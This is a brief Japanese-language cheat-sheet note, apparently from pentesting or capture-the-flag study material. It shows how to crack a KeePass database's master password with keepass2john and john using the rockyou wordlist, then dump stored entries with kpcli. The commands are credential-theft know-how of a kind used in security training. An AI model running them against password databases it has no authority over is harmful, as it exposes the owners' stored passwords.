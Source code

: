 # KeePass DB

[toc]

bitwardenのようなOSSのパスワード管理ツール。主にwindowsで用いられる

kdbxがDBとなっている

![image-20230501192617045](img/keePass_DB/image-20230501192617045.png)

### マスターパスワードのクラック

```
keepass2john User/Tim/Files/tim.kdbx
keepass2john User/Tim/Files/tim.kdbx > tim.kdbx.hash
```

![image-20230501192743237](img/keePass_DB/image-20230501192743237.png)

```
john --wordlist=/usr/share/wordlists/rockyou.txt tim.kdbx.hash 
```

![image-20230501192813477](img/keePass_DB/image-20230501192813477.png)

### kpcliでパスワードを取得する

```
kpcli --kdb User/Tim/Files/tim.kdbx
```

<img src="img/keePass_DB/image-20230501192955758.png" alt="image-20230501192955758" style="zoom:50%;" />

```
find .
show -f 2
```

<img src="img/keePass_DB/image-20230501193026323.png" alt="image-20230501193026323" style="zoom:50%;" />

